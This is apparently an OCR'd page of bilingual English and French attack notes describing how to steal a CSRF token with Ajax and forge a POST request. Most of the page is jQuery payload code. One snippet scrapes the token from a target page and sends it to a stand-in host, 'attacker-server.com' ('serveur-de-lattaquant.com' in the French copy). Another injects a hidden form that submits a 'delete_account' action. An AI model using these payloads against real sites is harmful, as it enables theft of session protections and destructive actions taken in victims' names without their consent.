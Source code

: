 ### **POSTVoler le jeton CSRF avec Ajax et envoyer une requête POST avec un formulaire**

To perform a Cross-Site Request Forgery (CSRF) attack, an attacker needs to steal the CSRF token from the target website and then use it to send malicious requests on behalf of the victim.

Pour effectuer une attaque de falsification de requête entre sites (CSRF), un attaquant doit voler le jeton CSRF du site cible, puis l'utiliser pour envoyer des requêtes malveillantes au nom de la victime.

One way to steal the CSRF token is by using Ajax to make a request to the target website and extract the token from the response.

Une façon de voler le jeton CSRF consiste à utiliser Ajax pour effectuer une requête vers le site cible et extraire le jeton de la réponse.

```javascript
$.ajax({
    url: 'https://target-website.com',
    type: 'GET',
    success: function(response) {
        var csrfToken = $(response).find('input[name="csrf_token"]').val();
        // Send the stolen CSRF token to the attacker's server
        $.post('https://attacker-server.com', { token: csrfToken });
    }
});
```

```javascript
$.ajax({
    url: 'https://site-cible.com',
    type: 'GET',
    success: function(response) {
        var csrfToken = $(response).find('input[name="csrf_token"]').val();
        // Envoyer le jeton CSRF volé au serveur de l'attaquant
        $.post('https://serveur-de-lattaquant.com', { token: csrfToken });
    }
});
```

Once the attacker has obtained the CSRF token, they can use it to craft a malicious form and submit it to the target website.

Une fois que l'attaquant a obtenu le jeton CSRF, il peut l'utiliser pour créer un formulaire malveillant et le soumettre au site cible.

```javascript
var maliciousForm = $('<form action="https://target-website.com" method="POST">' +
    '<input type="hidden" name="csrf_token" value="' + csrfToken + '">' +
    '<input type="hidden" name="action" value="delete_account">' +
    '</form>');
$('body').append(maliciousForm);
maliciousForm.submit();
```

```javascript
var formulaireMalveillant = $('<form action="https://site-cible.com" method="POST">' +
    '<input type="hidden" name="csrf_token" value="' + csrfToken + '">' +
    '<input type="hidden" name="action" value="supprimer_compte">' +
    '</form>');
$('body').append(formulaireMalveillant);
formulaireMalveillant.submit();
```
